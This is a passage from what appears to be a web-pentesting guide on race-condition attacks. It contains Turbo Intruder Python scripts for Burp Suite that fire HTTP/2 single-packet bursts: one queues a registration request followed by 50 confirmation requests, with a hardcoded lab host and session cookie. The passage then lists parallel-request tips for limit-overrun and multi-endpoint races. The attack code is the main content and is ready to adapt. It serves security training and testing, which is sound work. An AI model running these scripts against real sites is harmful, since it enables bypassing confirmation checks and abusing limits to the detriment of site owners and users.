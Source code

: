 ```python
        engine.queue(request2, gate='race1') 
    engine.openGate('race1') 
    engine.complete(timeout=60) 
def handleResponse(req, interesting): 
    table.add(req)

```
## Tubo Intruder - HTTP2 single-packet attack (Several endpoints)
In case you need to send a request to 1 endpoint and then multiple to other endpoints to trigger the RCE, you can change the race-single-packet-attack.py script with something like:
```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )
    
    # Hardcode the second request for the RC
    confirmationReq = '''POST /confirm?token[]= HTTP/2
Host: 0a9c00370490e77e837419c4005900d0.web-security-academy.net
Cookie: phpsessionid=MpDEOYRvaNT1OAm0OtAsmLZ91iDfISLU
Content-Length: 0

'''
    
    # For each attempt (20 in total) send 50 confirmation requests.
    for attempt in range(20):
        currentAttempt = str(attempt)
        username = 'aUser' + currentAttempt
    
        # queue a single registration request
        engine.queue(target.req, username, gate=currentAttempt)
        
        # queue 50 confirmation requests - note that this will probably sent in two separate packets
        for i in range(50):
            engine.queue(confirmationReq, gate=currentAttempt)
        
        # send all the queued requests for this attempt
        engine.openGate(currentAttempt)

```
## Send group in parallel (Manual Testing)
It's also available in Repeater via the new 'Send group in parallel' option in Burp Suite.

* For limit-overrun you could just add the same request 50 times in the group.
* For connection warming, you could add at the beginning of the group some requests to some non static part of the web server.
* For delaying the process between processing one request and another in a 2 substates steps, you could add extra requests between both requests.
* For a multi-endpoint RC you could start sending the request that goes to the hidden state and then 50 requests just after it that exploits the hidden state.
